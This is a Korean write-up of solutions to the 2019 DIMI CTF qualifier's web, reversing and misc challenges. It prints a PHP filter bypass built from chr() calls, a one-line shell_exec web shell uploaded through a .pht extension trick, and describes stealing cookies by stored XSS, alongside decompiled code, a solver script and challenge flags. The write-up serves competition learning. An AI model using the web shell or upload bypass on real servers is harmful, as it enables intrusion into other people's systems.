

2019년 DIMI CTF에 예선에 참가했습니다. 그리고 3771점으로 3등을 하게되었습니다. 전에 비해 발전이 없는 것 같아 매우 실망스러운 마음과 함께 풀이 작성해보겠습니다.

# Web

## exec me (16 solvers, 105pt)

```text
exec me
http://ctf.dimigo.hs.kr:4241

실.행.시.킬.수.있.겠.습.니.까.?
```

문제 설명에 힌트아닌 힌트가 담겨져 있다. 원래 PHP Sandbox형 문제에는 다음과 같은 취약점을 의도하곤 한다.

```php
$a = 'ex'+'ec';
echo $a('ls -al');
```

놀랍게도 저 코드를 실행시키면 정상적으로 폴더의 내용이 출력된다. 필터링을 우회하면서 실행할 수 있는 개꿀인 트릭이다. 하지만 이 문제의 필터링은 다음과 같다.

```php
<?php
// ...
    $filter = ['system', 'exec', '`', '_', '\'', '"', 'file', 'open', 'read', 'eval', 'pass', 'include', 'require', '=', 'glob', 'dir', '/'];
// ...
?>
```

따옴표가 필터링 되어 있어서 문자열은 쓰기 힘들어보이지만 우리에게는 `.`을 사용하라는 힌트가 있었다. `.`은 문자열을 연결하는 연산자이므로 무엇을 연결하면 좋을까?

파이썬의 `chr()` 함수와 똑같은 역할을 하는 함수가 파이썬에도 있다. 이것으로 한글자씩 만들어서 연결하면 될거라고 생각했다.

그래서 현재 디렉토리의 파일들을 출력하는 코드를 `chr()` 함수와 `.`로 짜보았다.

```php
// print_r(scandir('./'));
(chr(118).chr(97).chr(114).chr(95).chr(100).chr(117).chr(109).chr(112))((chr(115).chr(99).chr(97).chr(110).chr(100).chr(105).chr(114))(chr(46).chr(47)));
```

실행결과는 다음과 같다.


그러면 플래그의 이름이 `flag_iojasv8h8aghe89rwh3h`라는 것을 알 수 있다.

굳이 또 이런 짓 하지 말고 바로 `/flag_iojasv8h8aghe89rwh3h`로 가보자.



```text
FLAG: DIMI{Fi1t3r.Str1nG.eX3cUte.fuNcTi0n}
```

## 5shared (43 solvers, 100pt)

```text
5shared
혁명을 가져올 파일 공유 시스템을 공개합니다!

http://ctf.dimigo.hs.kr:8961
```

디렉토리 리스팅이 되어서 딱히 이렇게 안풀어도 되긴 하는데 초반에 풀어서.. 흠..

파일을 업로드하는 걸 보니 웹쉘을 업로드 해야 한다는 것을 직감할 수 있다. 몇가지 필터링이 되어있는데 다행히도 소스코드를 제공해 어떻게 필터링하는지 알 수 있다.

```php
<?php
// ...
// sanity check
$extension = explode('.', $file['name'])[1];
if (!in_array($extension, Array("jpg", "gif", "png"))) {
    $message = "<script>alert('jpg, gif, png 확장자만 업로드할 수 있습니다.'); history.back(); </script>";
    die($message);
}

// the real sanity check
$real_extension = array_pop(explode('.', $file['name']));
if (preg_match("/php/i", $file['name'])) {
    $message = "<script>alert('파일 이름에 php가 들어가면 안됩니다.'); history.back(); </script>";
    die($message);
}

if ($file['size'] > 4096) {
    $message = "<script>alert('최대 4mb까지 업로드할 수 있습니다.'); history.back(); </script>";
    die($message);
}

if (move_uploaded_file($file['tmp_name'], $uploadfile)) {
    $message = "<script>alert('성공적으로 파일이 업로드되었습니다.'); location.href = '/'; </script>";
    echo $message;
} else {
    $message = "<script>alert('업로드 에러'); history.back(); </script>";
    echo $message;
}

// ...
```

`.`으로 나눈것의 1번째를 이미지만 가능케 필터링한다. 이는 `file.jpg.blah`로 필터링을 우회할 수 있다.

또, 두번쨰 필터링으로는 php라는 단어를 정규식으로 필터링하게 되는데 이경우에 php을 포함한 모든 파일을 업로드할 수 없다.

하지만 php에는 pht라는 파일이 있어 이것도 php 파일과 마찬가지로 php 소스코드를 실행시킬 수 있다. 그래서 다음과 같은 파일을 만들어 `test.jpg.pht`의 이름으로 업로드 했다.

```php
echo shell_exec($_GET[1]);
```

그리고 GET 파라미터에 `ls ../../`를 넣은 결과는 다음과 같다.



그러면 플래그의 파일 이름도 알겠으니 `cat`으로 내용을 읽어보자.



```text
FLAG: DIMI{expl0d3_pht_g3t_sh3lL_:p}
```

## simple xss (15 solvers, 107pt)

```text
simple xss
http://ctf.dimigo.hs.kr:3317/
```

밑에서 볼 수 있듯이 간단한 Blind Stored XSS이다. 쿠키 탈취를 하는 공격 코드를 짜봤다.



그리고 한쪽에는 쿠키를 받는 서버를 `nc`로 만들어 놨다. 그리고, Selenium 봇이 게시물을 보는것을 기다리기만 하면 플래그가 나온다.



# Reversing

## getFlag (7 solvers, 262pt)

```text
랄랄라~

nc ctf.dimigo.hs.kr 2842

hint1: pyinstaller compiled binary ( python 3.5 )
```

일단 pyinstaller로 컴파일 되었다고 하니 `pyi-archive_viewer`로 까보자. (pyinstaller를 설치하면 같이 설치됨)



그러고 나서, 's' 타입을 가진 e를 꺼내보자.

하지만 꺼낸 'e' 파일을 uncompyle6로 pyc에서 소스코드로 변환하는 과정을 거치려고 하자 다음과 같은 결과가 나타났다.



매직넘버가 달라 문제가 발생하는 듯 했다. 이에 관련해 구글링을 해봤다. 찾은 결과 [다음](https://reverseengineering.stackexchange.com/questions/19900/decompile-python-for-elf-binaries#comment32034_19902)과 같은 댓글이 있었다.


그 댓글 말대로 Python 3.5를 깔아서 pyc 파일을 컴파일 해준뒤 Hex 에디터를 열어 서로 비교해보았다.



상단이 파이썬 3.5로 컴파일한 파일, 하단이 pyi-archive_viewer에서 추출한 파일이다.

헤더의 값이 변한 것 뿐만 아니라 Hex 값 `00400000`의 위치가 다른 것으로 보아 길이의 차이가 있는 것 같았다. 그래서, 위의 `00400000` 까지의 값을 밑에 붙여넣어 저장했다.

```python
# uncompyle6 version 3.3.5
# Python bytecode 3.5 (3350)
# Decompiled from: Python 3.5.0 (v3.5.0:374f501f4567, Sep 12 2015, 11:00:19)
# [GCC 4.2.1 (Apple Inc. build 5666) (dot 3)]
# Embedded file name: e.py
# Compiled at: 2019-07-07 17:08:14
# Size of source mod 2**32: 14 bytes
import sys, random, string, os, time

def send(data, end='\n'):
    sys.stdout.write(data + end)
    sys.stdout.flush()


def generateRandString(length, table=string.ascii_letters + string.digits):
    return ''.join([random.choice(table) for _ in range(length)])


def generateEncryptData():
    key1 = generateRandString(5) * 8
    salt = generateRandString(5) * 8
    offset = random.randrange(0, 5)
    flag = os.environ['flag']
    key2 = ''.join([chr(ord(key1[i]) ^ ord(flag[i])) for i in range(0, 40)])
    enc_data = ''.join([chr(ord(key2[i]) ^ ord(salt[i])) for i in range(0, 40)])
    send('salt[%d]=%c' % (offset, salt[offset]))
    send('enc_data=%s' % enc_data)


if __name__ == '__main__':
    random.seed(int(time.time()))
    send('You can calc flag?')
    generateEncryptData()
# okay decompiling e.pyc
```

드디어 파일을 디컴파일 했다. 이제, 코드를 분석해보자.

```text
+----------+            +----------+            +----------+
|   FLAG   |     =>     |   key2   |     =>     | enc_data |
| constant |    key1    | variable |    salt    | variable |
+----------+  variable  +----------+  variable  +----------+
```

일단 다섯 글자 중 한 글자의 `salt`를 알 수 있으므로 다섯글자 중 하나의 `key2` 값을 알 수 있다. 그리고, 플래그의 시작은 `DIMI{`로 가정했을때의 `key1`의 값을 얻을 수 있다.

그러면 얻은 `salt`와 `key1`를 바탕으로 해 나머지 다섯 글자 중 한글자씩을 얻을 수 있다.

`salt`의 위치는 항상 바뀌므로 여러번 돌려 5글자를 모두 구할 수 있게 복호화 코드를 짜보자.

```python
from pwn import *
from time import *

context.log_level = 'error'

visit_salt = [False, False, False, False, False]
result = ['*' for _ in range(40)]
result[0:5] = 'DIMI{'

while not all(visit_salt):
    r = remote('ctf.dimigo.hs.kr', 2842)
    r.recvuntil('salt[')
    salt_idx = int(r.recv(1))
    r.recvuntil('=')
    salt_value = r.recv(1)
    r.recvuntil('enc_data=')
    enc_data = r.recv().strip()

    if visit_salt[salt_idx]:
        r.close()
        sleep(1)
        continue
    visit_salt[salt_idx] = True

    print 'salt_idx:', salt_idx
    print 'salt_value:', salt_value

    key2 = ord(enc_data[salt_idx]) ^ ord(salt_value)
    key1 = key2 ^ ord('DIMI{'[salt_idx])

    for i in range(salt_idx+5, 40, 5):
        result[i] = chr(ord(enc_data[i]) ^ ord(salt_value) ^ key1)

    print 'result:', ''.join(result)

    r.close()
```

참고로 sleep을 넣은 이유는 시드를 현재 시간(초)를 기준으로 하기 때문에 같은 초에 여러 번 돌려봤자 `salt`의 위치가 달라지지 않기 떄문이다.

어쨌든, 이 코드를 돌리게 되면 다음과 같이 나온다.



```text
FLAG: DIMI{p4r7iAI_Fl4g_3nCRyP7_y0U_g3t_F14G?}
```

## keychecker (17 solvers, 107pt)

```text
어떠한 암호를 복호화하기 위한 코딩을 하다가 어려워서 그만뒀어요... 저를 도와서 완성해주실수 있나요?

암호 : 1110011001010110011101100101011000011010100001100100100010110010001111101110101011001000001111100110100011101010100011100100100010110110001000100011111011100010010010001011001000100110001111101110011011001000101100100010001001111010
```

64비트 elf파일을 IDA64로 까보면 다음과 같은 pseudo-code를 얻을 수 있다.



딱 보니 각 글자를 `0x23`으로 XOR한 것을 반복문을 돌리게 되는데, 대충 보게되면 2진수로 변환하는 코드지만, 자세히 보게 되면 맨 뒤 비트에는 가장 큰 값이 들어가게 된다. 그러므로 암호문을 8로 쪼갠 뒤 문자열을 뒤집은 것을 10진수로 변환한 뒤 각 수를 문자로 변환하면 될 것 같다.



```text
FLAG: DIMI{B1n_t0_5tR1Ng_d1nG_D0ng}
```

## gorev (24 solvers, 101pt)

```text
Go언어만의 매력에 풍덩 빠져보세요!
```

exe파일을 실행시켜 봤다.



Go 리버싱은 진짜 어려운데 솔버가 많은걸 보아하니 간단한 알고리즘을 사용해 암호화했구나라는 생각이 들었다.

그래서, 각 문자에 XOR을 돌려봤다.



```text
FLAG: DIMI{Go_G0_GO_go_g0_gO_r3versing!}
```

# Misc

## Mic Check (119 solvers, 100pt)

```text
환영합니다.
한국디지털미디어고등학교 주최 2019년 전국청소년모의해킹대회 - DIMICTF에 참가하신 것에 대해 크나큰 감사의 인사를 드립니다.

Reversing / Pwnable / Web Hacking / Misc 로 분야가 나누어져있으며, 각 분야당 최대 5문제가 단계적으로 공개될 예정입니다.

문제 풀이와 관련없는 대회 웹사이트 / 서버에 대한 포트스캐닝/퍼징/공격 등은 법적 처벌을 받을 수 있습니다.
자세한 규칙은 https://ctf.dimigo.hs.kr/rule 을 참고해주시길 바랍니다.

IRC (디스코드) : https://discord.gg/UGvmASa

Welcome Flag : DIMI{A-A-A-A---Mic-Check!}
```

C&P ㄱ

```text
FLAG: DIMI{A-A-A-A---Mic-Check!}
```

## dimi-math (12 solvers, 118pt)

```text
하루 종일 놀다가 수학 숙제가 엄청나게 밀렸어요. 끝내는 것을 도와주시면 플래그를 드릴게요!

*중근 발생 시 모두 나열하여 제출해주세요. example) 3(중근), 4 ---> 3, 3, 4 / 7(삼중근) ---> 7, 7, 7

nc ctf.dimigo.hs.kr 8231
```

